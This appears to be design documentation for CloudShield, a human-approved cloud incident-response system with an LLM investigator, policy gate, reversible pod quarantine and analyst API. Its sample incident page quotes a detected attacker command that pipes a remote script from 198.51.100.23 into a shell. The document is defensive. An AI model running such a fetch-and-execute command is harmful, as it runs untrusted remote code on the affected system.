


# Human-approved response

The response state machine, policy gate, approvals, console and API. Part of the [CloudShield documentation](../README.md#documentation).

Status markers: ✅ built and tested · 🧩 written as code, not deployed · 📐 designed only.

## Human-approved response

### Decision states

Every state change records an **actor, timestamp, justification and linked case**.



### Response classes

| Class | Examples | Rule |
|---|---|---|
| **Read-only** | Fetch metadata, search event history, retrieve a runbook passage | Allowed for the scoped investigator role |
| **Low-impact notification** | Create a case comment, notify Slack, open a ticket | Automated when verified and non-sensitive |
| **Reversible test action** | Apply a predefined quarantine label or policy in the lab | Analyst approval plus impact preview |
| **Potentially disruptive** | Change a Security Group, block a network path, isolate an instance | Named human approval **and** independent policy authorization |
| **Irreversible / sensitive** | Delete resources, destroy keys, erase data, terminate critical systems | Out of scope; never issued by the LLM |

### The policy gate



The policy is declarative and version-controlled ([`services/policy/policies/actions.yaml`](../services/policy/policies/actions.yaml)), and the policy engine is deterministic code that the LLM cannot reach. The file is pure data with no expressions to evaluate, so nothing echoed into a proposal can change how a rule is read:

```yaml
actions:
  k8s.pod.quarantine_label:
    class: reversible_test
    environments: [lab]
    target:
      kinds: [Pod]
      allowed_namespaces: [shop]
      denied_namespaces: [kube-system, cloudshield]
    approvals:
      min: 1
      roles: [incident-responder]
      ttl_minutes: 15
      escalate_when_labels:
        cloudshield.io/tier: critical
      escalated_min: 2
    require_dry_run: true
    rollback: k8s.pod.remove_quarantine_label
```

| Example request | Decision | Reason |
|---|---|---|
| Quarantine `shop/checkout-…` in `lab`, dry-run OK | ✅ Await approval | Allowlisted, fresh target, reversible |
| Quarantine a pod in `kube-system` | ❌ Deny | Protected namespace |
| Quarantine a pod whose UID changed since the proposal | ❌ Deny | Stale target |
| Modify a Security Group in `prod` | ❌ Deny | Not allowlisted for this environment |
| An approval replayed after 15 minutes | ❌ No action | TTL expired |
| An approval for a proposal whose content changed | ❌ No action | Approval hash doesn't match |

### The first response action, end to end

The first action is a **reversible pod quarantine** that keeps the pod running for forensics while cutting its network access.

Kubernetes NetworkPolicies are *additive allow-lists*: a deny-all policy cannot override an existing allow. So CloudShield builds quarantine into the namespace baseline:

1. The protected namespace runs a **default-deny** policy.
2. Every application allow-policy **excludes** quarantined pods.
3. Adding the label `cloudshield.io/quarantine=true` therefore removes the pod from every allow-policy and leaves it under default-deny.
4. A **Kyverno** policy rejects any NetworkPolicy in protected namespaces that leaves out the exclusion, so the mechanism cannot silently decay.

```yaml
# Application allow-policy (excerpt): quarantined pods never match
spec:
  podSelector:
    matchLabels: { app: checkout }
    matchExpressions:
      - { key: cloudshield.io/quarantine, operator: NotIn, values: ["true"] }
```

| Phase | What happens |
|---|---|
| **Dry-run** | Server-side dry-run of the label patch, plus listing the services, callers and replicas that will be affected |
| **Execute** | Patch the pod label using the action-specific RBAC identity and an idempotency key |
| **Verify** | The label is present; the pod is matched by no allow-policy; a probe confirms new egress is blocked; the replica count is still healthy |
| **Rollback** | Remove the label (a pre-approved compensating action) and re-verify connectivity |

> Behavior for connections that were already open depends on the CNI, so verification probes new connections and records the CNI in use.

### Required controls

- **Separation of privileges:** the LLM has read-only tools; the executor has action-specific IAM/RBAC and nothing else.
- **Structured action schemas** with exact resource identifiers, environment and expiry.
- **An independent policy engine** that checks target allowlists, change windows, approver authorization and risky dependencies.
- **Explicit dry-run.** Failing to approve means no action.
- **Time-bounded approvals** bound to the proposal hash, with protection against replay, stale targets and duplicate execution.
- **Verification, audit records, a rollback plan and on-call escalation** for every action.
- **Meaningful human review:** the console shows evidence, consequences and alternatives, not just an "Approve" button.

---

## The analyst incident page

The first five things an analyst sees are designed to answer *what happened, to what, how sure are we, and what is the safe move*. This is the design; the [console](../services/console/static/app.js) implements it (screenshot at the top of this README). It builds every element from text nodes, since alert text is attacker-controlled, and ships with a strict Content-Security-Policy.

```text
CASE-0142 · Unexpected process in shop/checkout-7d9f6c-x2k8p       MEDIUM · AWAITING APPROVAL
─────────────────────────────────────────────────────────────────────────────────────────────
① SYNOPSIS
   Shell downloaded and piped a remote script ~30s after an interactive kubectl exec.
   GuardDuty independently flagged a new binary in the same container.

② AFFECTED ENTITY
   pod checkout-7d9f6c-x2k8p → deploy/checkout → sa/checkout → role/shop-checkout-pod
   node i-0a1b2c3d4e (ip-10-20-3-41) · owner: payments-team · tier: standard · env: lab

③ TIMELINE (event time)                                              source        evidence
   14:02:11Z  kubectl exec into pod by principal dev-ci              K8s audit     evt_…2ZA1
   14:02:40Z  sh -c 'curl -s http://198.51.100.23/x.sh | sh'          Falco         evt_…KX7R
   14:03:05Z  Execution:Runtime/NewBinaryExecuted                    GuardDuty     evt_…4C9P

④ FACTS vs HYPOTHESES
   FACT      remote script piped to shell inside the container       [evt_…KX7R]
   HYPOTHESIS (medium) dev-ci credential misused for exec             [evt_…2ZA1]
   MISSING   flow logs for 198.51.100.23 after 14:03Z · role CloudTrail since 14:02Z

⑤ PROPOSED ACTION
   Quarantine label on pod checkout-7d9f6c-x2k8p   class: reversible   dry-run: ✓ passed
   Blast radius: this replica loses ingress/egress · 2 replicas keep serving
   Rollback: remove label · approval expires 14:21Z
   [ Approve ]   [ Reject ]   [ Request more evidence ]

COVERAGE   Falco ● ok    GuardDuty ● ok    Wazuh ● degraded (no heartbeat for 7 min)
```

---

## API surface

| Method | Endpoint | Purpose | Required scope |
|---|---|---|---|
| `POST` | `/v1/ingest/falco` | Falcosidekick webhook (bearer token) | `ingest:falco` |
| `POST` | `/v1/ingest/wazuh` | Wazuh integration webhook (HMAC-SHA256 signed body) | `ingest:wazuh` |
| — | *worker* `aws-findings-consumer` | Consumes GuardDuty findings from SQS (🧩 not deployed) | IAM role |
| `GET` | `/v1/cases` | List cases (filter by status, severity, entity) | `case:read` |
| `GET` | `/v1/cases/{id}` | Case detail: entities, evidence, investigations, proposals | `case:read` |
| `GET` | `/v1/cases/{id}/timeline` | Event-time-ordered timeline with sources | `case:read` |
| `GET` | `/v1/events?q=` | Search normalized events | `event:read` |
| `GET` | `/v1/entities/{id}/graph` | Relationship graph with assurance levels | `case:read` |
| `POST` | `/v1/cases/{id}/investigations` | Run the AI investigator on the case's evidence and matching runbooks; stored only if every citation checks out | `ai:invoke` |
| `GET` | `/v1/cases/{id}/investigations` | Investigations for a case, with model ID, prompt version and runbooks used | `case:read` |
| `POST` | `/v1/investigations/{id}/review` | An analyst accepts or rejects an investigation, once | `ai:review` |
| `GET` | `/v1/proposals/{id}` | Proposal, policy decision and impact preview | `case:read` |
| `POST` | `/v1/proposals/{id}/dry-run` | Re-run the dry-run and the freshness check | `response:propose` |
| `POST` | `/v1/proposals/{id}/approve` | Approve; the body must include the proposal hash | `response:approve` |
| `POST` | `/v1/proposals/{id}/reject` | Reject with a justification | `response:approve` |
| `POST` | `/v1/proposals/{id}/execute` | Re-checks approvals and the target, executes once, verifies | `response:execute` |
| `GET` | `/v1/cases/{id}/proposals` | Proposals for a case, with policy decisions, approvals and execution results | `case:read` |
| `GET` | `/v1/cases/{id}/report` | Post-incident report as Markdown, built only from recorded evidence, with attacker-supplied text escaped ([sample](sample-incident-report.md)) | `case:read` |
| `GET` | `/v1/health/coverage` | Per-source heartbeat and coverage state | `ops:read` |
| `GET` | `/v1/audit?case_id=` | Hash-chained audit records | `audit:read` |
| `GET` | `/v1/me` | The signed-in analyst and roles | any analyst |
| `GET` | `/console` | The analyst console (static page, strict CSP) | any analyst |

Analysts use four roles: `viewer`, `analyst` (can propose), `incident-responder` (can propose, approve and execute) and `admin`. Nobody can approve their own proposal, approvals must quote the proposal hash they were shown, and execution re-checks both the approvals and the target. Today analysts authenticate with bearer tokens whose SHA-256 hashes are configured in `CLOUDSHIELD_ANALYSTS`; OIDC SSO replaces this later (M5).
